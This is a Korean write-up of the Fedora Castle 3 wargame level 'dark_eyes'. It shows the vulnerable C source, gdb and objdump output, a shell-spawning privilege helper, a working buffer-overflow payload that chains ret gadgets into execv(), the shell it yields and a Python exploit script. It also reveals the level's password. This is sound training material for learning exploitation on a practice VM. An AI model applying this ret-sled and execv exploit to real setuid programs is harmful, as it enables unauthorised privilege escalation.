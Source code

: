 ```yaml
---
layout: post
title:  "[FC3]Level2. dark_eyes"
subtitle:   "[FC3]iron_golem → dark_eyes"
categories: Fedora_Catle_3
tags:
- Wargame
- Fedora Catle 3
- Write-up
---
```


## Keyword : RET Sleding

```c
/*
  The Lord of the BOF : The Fellowship of the BOF
  - dark_eyes
  - Local BOF on Fedora Core 3
  - hint : RET sleding
*/

int main(int argc, char *argv[])
{
  char buffer[256];
  char saved_sfp[4];

  if(argc < 2){
    printf("argv error\n");
    exit(0);
  }

  // save sfp
  memcpy(saved_sfp, buffer+264, 4);

  // overflow!!
  strcpy(buffer, argv[1]);

  // restore sfp
  memcpy(buffer+264, saved_sfp, 4);

  printf("%s\n", buffer);
}
```

Cannary 보호기법을 흉내낸 코드 같다. 

sfp에 담겨있는 값을 saved_sfp에 저장해두고 strcpy실행 이후 sfp를 다시 복원시킨다.

따라서 앞에 문제에서 사용했던 FakeEBP는 사용 불가능하다.



RET Sleding이라는 힌트가 있어서 EBP 아래부분을 살펴보았다.

<img src="http://eliez3r.synology.me/assets/img/writeup/fc3/2.dark_eyes/image-20180807162316255.png" width="500px">

EBP+28 부분에 NULL값이 존재하였다. 이는 매우 중요한 값으로 사용 가능하다.

strcpy함수로 NULL값을 넘겨주는 것은 불가능 하기 때문에, 스택상에 NULL값을 이용하면 된다.

execv()함수를 이용할 때 인자가 끝났다는 표시를 NULL값으로 확인하기 때문에 NULL 앞에 값은 execv의 인자로 사용하면 된다.



<img src="http://eliez3r.synology.me/assets/img/writeup/fc3/2.dark_eyes/image-20180807171320581.png" width="600px">

위 사진처럼 RET에 RET명령어를 3개를 넣고, execv()함수 주소를 넣으면 execv()+8부분을 인자값으로 실행한다.



그러면 0x83eff4부분에 무슨 값이 들어 있는지 확인해보자.

```sh
(gdb) x/x 0x83eff4
0x83eff4 <svcauthsw+712>: 0x0083ed3c
```

0x83ed3c라는 값이 들어있다.

그러면 이제 iron_grem문제처럼 심볼릭 링크를 이용하여 파일 이름을 83ed3c로 만들고 진행하면 될 것 같다.



페이로드 준비물

- ret가젯 주소
- execv함수 주소 

```sh
[iron_golem@Fedora_1stFloor ~]$ objdump -S dark_eyes | grep ret
 80482fe: c3                    ret
 80483a4: c3                    ret
 80483d9: c3                    ret
------ 생략 ------
```

dark_eyes 바이너리 안에 ret명령어 가젯들을 보여준다. 이중 하나 고르자.



```sh
(gdb) p execv
$1 = {<text variable, no debug info>} 0x7a55d0 <execv>
```

execv 함수도 gdb상에서 구해주자.



- ret가젯 주소 : 0x80482fe
- execv함수 주소 : 0x7a55d0



이제 권한 상승하여 쉘을 띄우는 프로그램을 만들자.

```c
[iron_golem@Fedora_1stFloor ~]$ cat tmp.c
#include<stdio.h>

int main(){
  setreuid(geteuid(), geteuid());
  system("/bin/sh");
  return 0;
}
```



```sh
[iron_golem@Fedora_1stFloor ~]$ gcc -o $(python -c 'print "\x3c\xed\x83"') tmp.c
```

ln -s 를 이용하여 하는 방법도 있지만, gcc로 컴파일 할때 파일 이름 자체를 바꾸는 방법을 사용해 봤다.

> ln -s 과정을 생략 할 수 있다.



```sh
[iron_golem@Fedora_1stFloor ~]$ ./dark_eyes `python -c 'print "A"*268+"\xfe\x82\x04\x08"*3+"\xd0\x55\x7a\x00"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�s������Uz
sh-3.00$ id
uid=502(dark_eyes) gid=501(iron_golem) groups=501(iron_golem) context=user_u:system_r:unconfined_t
sh-3.00$ my-pass
euid = 502
because of you
```

payload : `| buffer(264)+dummy(4) | ret Gadget*3 | execv() |` 



ex도 짜보자.

```python
import struct
import os

p32 = lambda x : struct.pack("<I", x)

target = "/home/iron_golem/dark_eyes"

ret = 0x80482fe
execv = 0x7a55d0

payload  = "A"*264  # buffer + dummy
payload += "B"*4  # SFP
payload += p32(ret)*3 # ret * 3
payload += p32(execv) # execv

os.execv(target, (target, payload[:-1]))
```



**dark_eyes / because of you**